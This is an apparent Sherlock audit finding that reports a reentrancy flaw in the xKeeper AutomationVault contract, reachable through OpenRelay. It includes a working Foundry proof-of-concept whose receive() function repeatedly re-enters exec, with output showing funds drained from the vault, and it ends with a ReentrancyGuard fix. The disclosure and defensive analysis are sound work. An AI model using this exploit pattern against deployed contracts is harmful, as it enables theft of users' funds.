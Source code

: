 Amateur Paisley Squid

high

# User can steal funds from `AutomationVault` using Reentrancy Attack on `exec` function

## Summary
Lack of reentrancy guard in the `AutomationVault` contract enables malicious users to steal large amount of funds using the `OpenRelay` relay in a single transaction.

## Vulnerability Detail
As stated in the contest documentation, only the `Gelato` relay is considered TRUSTED. Additionally, any user can become a keeper bot and utilize the `OpenRelay` relay to execute jobs.

Vulnerability arises due to maliciously using `OpenRelay` relay to perform multiple jobs in a single transaction. With the `OpenRelay` relay, there is no mechanism in place to restrict keeper bots from performing jobs more frequently than intended by the `AutomationVault` owner.
After a few malicious transactions, the `AutomationVault` owner can prevent this by removing the malicious caller, thereby recovering with only a minor fund loss.

However, in scenarios where a significant amount of funds is stolen in one transaction, the `AutomationVault` owner lacks the means to prevent the loss.

Here is the attack scenario:

1. `AutomationVault` owner grants approval to `OpenRelay` relay, allowing all callers or malicious callers.
2. `AutomationVault` owner authorizes specific jobs, such as `MakerDAOUpkeep`, to be executed by callers once a week.
3. Malicious user/caller utilizes the `OpenRelay` relay to execute a job:
```solidity
    _automationVault.exec(msg.sender, new IAutomationVault.ExecData[](0), _feeData);
```

4. Within the `AutomationVault` contract, funds are transferred to the malicious user using the following code:
```solidity
                (_success, ) = _feeInfo.feeRecipient.call{value: _feeInfo.fee}("");
```

5. The malicious user can subsequently re-enter the `OpenRelay` contract using the `receive` function to execute the same job and receive payment within the same transaction.
6. Step 4-5 can be repeated multiple times within a same transaction to drain large amount of funds.

Paste the test below into `AutomationVault.t.sol` with `forge-std/console.sol` imported. It demonstrates the above attack scenario.

<details>
<summary>PoC</summary>

```solidity
    function test_attackVault() public {
        // Bot callers array
        address[] memory _bots = new address[](1);
        _bots[0] = address(this);

        // Job selectors array
        bytes4[] memory _jobSelectors = new bytes4[](2);
        _jobSelectors[0] = basicJob.work.selector;
        _jobSelectors[1] = basicJob.workHard.selector;

        // Job data array
        IAutomationVault.JobData[] memory _jobsData = new IAutomationVault.JobData[](1);
        _jobsData[0] = IAutomationVault.JobData(address(basicJob),_jobSelectors);

        // ExecData
        uint _howhard = 10;
        IAutomationVault.ExecData[] memory _execData = new IAutomationVault.ExecData[](1);
        _execData[0] = IAutomationVault.ExecData(address(basicJob),abi.encodeWithSelector(basicJob.workHard.selector, _howhard));

        vm.deal(owner, 10 ether);
        vm.deal(address(this), 1 wei);
        vm.startPrank(owner);

        // AutomationVault approve relay data
        automationVault.addRelay(address(openRelay), _bots, _jobsData);
        address(automationVault).call{value: 1 ether}("");

        vm.startPrank(address(this));

        console.log("Attacker Balance before attack: ", address(this).balance);
        console.log("Vault Balance before attack: ",address(automationVault).balance);
        openRelay.exec(automationVault, _execData, address(this));
        console.log("Attacker Balance after attack: ", address(this).balance);
        console.log("Vault Balance after attack: ",address(automationVault).balance);
    }

    receive() external payable {
        if (gasleft() < 100000) return;

        // Bot callers array
        address[] memory _bots = new address[](1);
        _bots[0] = address(this);

        // Job selectors array
        bytes4[] memory _jobSelectors = new bytes4[](2);
        _jobSelectors[0] = basicJob.work.selector;
        _jobSelectors[1] = basicJob.workHard.selector;

        // Job data array
        IAutomationVault.JobData[] memory _jobsData = new IAutomationVault.JobData[](1);
        _jobsData[0] = IAutomationVault.JobData(address(basicJob),_jobSelectors);

        // ExecData
        uint _howhard = 10;
        IAutomationVault.ExecData[] memory _execData = new IAutomationVault.ExecData[](1);
        _execData[0] = IAutomationVault.ExecData(address(basicJob),abi.encodeWithSelector(basicJob.workHard.selector, _howhard));

        vm.startPrank(address(this));

        // Re-entring the OpenRelay contract to perform additional job 
        openRelay.exec(automationVault, _execData, address(this));
    }
```
Output from running the test below.

```solidity
Running 1 test for test/integration/AutomationVault.t.sol:IntegrationAutomationVault
[PASS] test_attackVault() (gas: 10666350)
Logs:
  Attacker Balance before attack:  1
  Vault Balance before attack:  1000000000000000000
  Attacker Balance after attack:  298550506113453761
  Vault Balance after attack:  701449493886546240
```
</details>

## Impact
The `AutomationVault` owner will lose a substantial amount of funds in a single transaction before they can eliminate the malicious users/callers. Moreover, if the `AutomationVault` owner has granted approval to all callers in the `OpenRelay` relay using `_ALL` constant, a single malicious actor can execute a coordinated group attack, deploying multiple caller contracts simultaneously to execute the same reentrancy attack, thereby depleting all funds within a single block.

## Code Snippet
https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/core/AutomationVault.sol#L439
https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/relays/OpenRelay.sol#L39

## Tool used
Manual Review

## Recommendation
Utilize the `ReentrancyGuard` from OpenZeppelin to protect against reentrancy attacks. This ensures that multiple jobs cannot be executed in a single transaction.